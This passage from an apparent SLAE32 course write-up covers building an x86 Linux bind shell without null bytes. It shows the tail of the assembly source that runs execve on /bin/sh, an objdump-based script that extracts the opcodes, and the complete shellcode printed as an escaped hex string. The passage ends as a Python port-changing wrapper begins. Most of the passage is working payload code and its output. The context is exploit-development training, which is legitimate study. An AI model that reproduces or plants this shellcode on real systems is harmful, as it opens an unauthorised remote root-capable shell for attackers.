 	push 0x68732f6e
	push 0x69622f2f	; note the // at the end, sigsevs without - junk corrupting it?

	mov ebx, esp	; push the addr of our above string (esp) into 1st param

	push eax        ; push 0 onto the stack (2nd param == NULL)
    mov ecx, esp    ; requires a pointer - man page has them for usage

	push eax	; push 0 onto the stack (3rd param == NULL)
	mov edx, esp	; requires a pointer - man page has them for usage

    mov al, 0xb    ; move 11 into EAX register (syscall number)

	int 0x80	; final syscall
```

Dumping the hex for usage:
To extract our hex values for our shell, we can use the following shell script (dump_hex.sh) along with the target object to extract the hex values in a usable fashion. The output can be taken and placed directly into the following python wrapper.

```
root@kali:~/Documents/slae32/misc# cat dump_hex.sh 
objdump -d "$1" |grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
```

Usage:

```
root@kali:~/Documents/slae32/exercise_1/second_bind_shell# ../../misc/dump_hex.sh second_bind_shell
"\\x31\\xc0\\x31\\xdb\\x31\\xc9\\x31\\xd2\\x66\\xb8\\x67\\x01\\xb3\\x02\\xb1\\x01\\xcd\\x80\\x89\\xc7\\x31\\xc0\\x66\\xb8\\x69\\x01\\x89\\xfb\\x31\\xc9\\x51\\x51\\x66\\x68\\x23\\x29\\x66\\x6a\\x02\\x89\\xe1\\x31\\xd2\\xb2\\x10\\xcd\\x80\\x31\\xc0\\x66\\xb8\\x6b\\x01\\x89\\xfb\\x31\\xc9\\xcd\\x80\\x31\\xc0\\x66\\xb8\\x6c\\x01\\x89\\xfb\\x31\\xc9\\x31\\xd2\\x31\\xf6\\xcd\\x80\\x89\\xc7\\x31\\xc9\\xb1\\x03\\x31\\xc0\\xb0\\x3f\\x89\\xfb\\xfe\\xc9\\xcd\\x80\\x75\\xf4\\x31\\xc0\\x50\\x68\\x6e\\x2f\\x73\\x68\\x68\\x2f\\x2f\\x62\\x69\\x89\\xe3\\x50\\x89\\xe1\\x50\\x89\\xe2\\xb0\\x0b\\xcd\\x80"

```

As the above output shows, I have successfully tweaked my initial bind shell script to remove all null bytes during the second draft of the shell. The output also includes two \'s because the actual value, allowing direct usage within a python string. We need the two back slash characters to ensure a single \ remains in the final output.

## Wrapper to allow custom port number:
The issue with this shell at the moment, is the static port value used within the defined struct. In order to change the port number we currently need to either open the .asm file, tweak the hex number that is pushed onto the stack and rebuild the shell or remember which hex values in the entire hex string above reference the port.

The more logical solution would be to create a little tool, or wrapper, that takes a user defined integer value, converts this value to hex and then replaces the current port number value before dumping the hex to the screen for use.

The following script is a python wrapper that I have made to allow a custom port to be placed into the script, replacing the hard coded value within the final hex output.

```
root@kali:~/Documents/slae32/exercise_1# cat wrapper.py 
import sys
import socket
